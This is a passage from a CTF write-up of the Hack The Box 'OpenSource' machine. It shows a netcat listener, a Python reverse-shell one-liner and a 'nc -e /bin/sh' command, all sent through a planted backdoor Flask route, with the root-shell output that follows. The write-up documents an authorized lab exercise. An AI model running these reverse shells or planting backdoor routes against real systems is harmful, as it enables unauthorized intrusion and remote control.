 **We indeed received 4 ICMP echo reply!**

- Get a python reverse shell:

**Setup a `nc` listener:**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# nc -lnvp 443
listening on [any] 443 ...
```

**Python reverse shell payload: (Generated from https://www.revshells.com/)**
```py
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.41",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")'
``` 

**Paste the payload in `pwned` route's `cmd` GET parameter:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/OpenSource/images/a14.png)

**Reverse shell connection:**
```
[...]
connect to [10.10.14.41] from (UNKNOWN) [10.10.11.164] 48752
/app # whoami;hostname;id;ip a
whoami;hostname;id;ip a
root
9e38ef79cc9b
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[...]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.3/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

Notice that **the `eth0` interface is `172.17.0.3`**, which is a **docker container IP**.

I'm root in this **docker container**!

> Note: I also wrote a [python](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/OpenSource/exploit.py) script to automate the upload backdoor route process.

```
┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# python3 exploit.py
[+]Writing a backdoor flask route into current working directory...
[+]Sending a POST request to modify the /app/app/views.py in the target machine...
--------------------------------------------------
[*]Hit Ctrl+C to exit this fake shell.
[*]If you want a reverse shell to the target machine, type this, setup a netcat listener and replace the YOUR_IP and PORT:
nc <YOUR_IP> <PORT> -e /bin/sh
--------------------------------------------------
┌──(root@FakeShell)-[~/HackTheBox/OpenSource]
└─# nc 10.10.14.42 443 -e /bin/sh

┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.11.164] 45227
python3 -c "import pty;pty.spawn('/bin/sh')"
/app # whoami;hostname;id;ip a
```